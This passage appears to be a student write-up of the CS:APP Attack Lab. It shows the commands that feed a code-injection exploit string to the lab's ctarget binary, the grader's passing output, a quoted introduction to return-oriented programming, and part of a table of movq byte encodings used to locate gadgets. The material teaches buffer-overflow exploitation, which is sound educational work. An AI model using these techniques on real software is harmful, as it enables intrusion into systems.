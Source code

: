 Generate the raw exploit string and check the answer

```
./hex2raw < atk3.txt > atk3r.txt

./ctarget < atk3r.txt             # use I/O redirection

gdb ctarget                       # within GDB
(gdb) run < atk3r.txt
```

```
Cookie: 0x5f5bd74e
Type string:Touch3!: You called touch3("5f5bd74e")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

<h2 id = "part2">Part II: Return-Oriented Programming</h2>
> Performing code-injection attacks on program RTARGET is much more difficult than it is for CTARGET,
> because it uses two techniques to thwart such attacks:
>
> * It uses randomization so that the stack positions differ from one run to another. This makes it impossibleto determine where your injected code will be located.
> * It marks the section of memory holding the stack as nonexecutable, so even if you could set the program counter to the start of your injected code, the program would fail with a segmentation fault.
>
> The solution for this is to use ROP (Return Oriented Programming). What ROP does is that since we can't execute our own code, we will look for instructions in the code that do the same thing as what we want. These are called gadgets and by combining these gadgets, we will be able to perform our exploit. 

* **Encodings of movq instructions**

<table>
   <tr>
      <th rowspan="2">Source S</td>
      <th colspan="8">Destination D</td>
   </tr>
   <tr>
      <td>%rax</td>
      <td>%rcx</td>
      <td>%rdx</td>
      <td>%rbx</td>
      <td>%rsp</td>
      <td>%rbp</td>
      <td>%rsi</td>
      <td>%rdi</td>
   </tr>
   <tr>
      <td>%rax</td>
      <td>48 89 c0</td>
      <td>48 89 c1</td>
      <td>48 89 c2</td>
      <td>48 89 c3</td>
      <td>48 89 c4</td>
      <td>48 89 c5</td>
      <td>48 89 c6</td>
      <td>48 89 c7</td>
   </tr>
   <tr>
      <td>%rcx</td>
      <td>48 89 c8</td>
      <td>48 89 c9</td>